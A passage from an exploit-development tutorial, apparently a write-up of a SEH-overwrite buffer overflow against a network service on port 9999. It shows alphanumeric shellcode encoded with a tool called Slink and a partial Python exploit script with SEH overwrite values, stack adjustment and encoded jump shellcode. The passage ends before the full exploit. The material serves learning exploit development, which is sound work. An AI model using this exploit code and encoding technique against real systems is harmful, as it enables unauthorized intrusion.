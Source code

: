 So now we have our shellcode that we need encoded: `\x54\x5b\x81\xeb\xb9\x0d\x00\x00\xff\xd3`. 

Since `\x54\x5b` aren't restricted, we need to just prepend these to our encoded shellcode and leave them unencoded. This is a nice trick. If we were to encode `\x54\x5b\x81\xeb\xb9\x0d\x00\x00\xff\xd3` with Slink, our encoded shellcode would be **83 bytes**. However, if we just encode `\x81\xeb\xb9\x0d\x00\x00\xff\xd3`, our encoded shellcode is **52 bytes**, that's a huge difference!

Slink gives us the following encoded shellcode:
```terminal_session
Enter your shellcode: \x81\xeb\xb9\x0d\x00\x00\xff\xd3
Enter shellcode variable name: longJump
[+] Shellcode size is divisible by 4
[*] Encoding [d3ff0000]..
[!] Possible bad character found, using alterantive encoder..
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x11\x11\x77\x62" ## add  eax, 0x62771111
longJump += "\x05\x11\x11\x66\x62" ## add  eax, 0x62661111
longJump += "\x05\x11\x11\x55\x42" ## add  eax, 0x42551111
longJump += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
longJump += "\x50"                 ## push eax
[*] Encoding [0db9eb81]..
[+] No bad character found, using default encoder..
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x41\x76\x65\x07" ## add  eax, 0x07657641
longJump += "\x05\x40\x75\x54\x06" ## add  eax, 0x06547540
longJump += "\x50"                 ## push eax
[*] Shellcode final size: 52 bytes
```

So we add our `longJump` variable to our exploit which now looks like this: 
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'

Seh = '\x2b\x17\x50\x62'

espAdj = '\x54\x58\x66\x05\x4b\x13\x50\x5C'

jump = ""
jump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
jump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
jump += "\x05\x76\x40\x50\x50" ## add  eax, 0x50504076
jump += "\x05\x75\x40\x40\x40" ## add  eax, 0x40404075
jump += "\x50" 

espAdj2 = '\x54\x58\x2c\x2a\x50\x5c'

longJump = "\x54\x5b"
longJump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
longJump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
longJump += "\x05\x11\x11\x77\x62" ## add  eax, 0x62771111
longJump += "\x05\x11\x11\x66\x62" ## add  eax, 0x62661111
longJump += "\x05\x11\x11\x55\x42" ## add  eax, 0x42551111
longJump += "\x2D\x33\x33\x33\x33" ## sub  eax, 0x33333333
longJump += "\x50"                 ## push eax
```
